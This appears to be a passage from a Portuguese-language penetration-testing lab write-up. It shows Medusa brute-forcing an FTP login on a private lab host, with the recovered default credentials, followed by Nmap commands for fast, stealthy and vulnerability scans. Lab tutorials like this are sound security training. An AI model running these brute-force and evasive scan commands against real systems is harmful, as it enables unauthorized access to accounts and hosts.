 **Ou para testar múltiplos usuários:**
```bash
medusa -h 192.168.56.110 -U users.txt -P pass.txt -M ftp -v 6
```

**Parâmetros explicados:**
- `-h`: IP alvo
- `-u`: Usuário único
- `-U`: Arquivo com lista de usuários
- `-P`: Arquivo com lista de senhas
- `-M`: Módulo (ftp no nosso caso)

## **Resultado: ✨ SUCCESS ✨**

```
ACCOUNT FOUND: [ftp] Host: 192.168.56.110 User: msfadmin Password: msfadmin [SUCCESS]
```
![Medusa Success](medusaccess.png)      

---

## **🎯 DICAS EXTRAS: ESCANEAMENTO PROFISSIONAL COM NMAP**

### **🔍 Comandos Nmap para Diferentes Cenários:**

#### **Para Laboratório (Rápido):**
```bash
nmap -T4 -A 192.168.56.110
```

#### **Para Pentest Real (Discreto):**
```bash
nmap -sS -T2 192.168.56.110
```

#### **Scan Muito Discreto:**
```bash
nmap -sS -T1 --max-rate 10 192.168.56.110
```

#### **Scan de Vulnerabilidades:**
```bash
nmap --script vuln 192.168.56.110
```

### **📊 Timing Templates do Nmap:**
- **`-T0`** (Paranoid): Muito lento, máxima evasão
- **`-T1`** (Sneaky): Muito discreto  
- **`-T2`** (Polite): Discreto, bom para pentest
- **`-T3`** (Normal): Padrão balanceado
- **`-T4`** (Aggressive): Rápido, maior detecção
- **`-T5`** (Insane): Muito rápido, alta detecção

---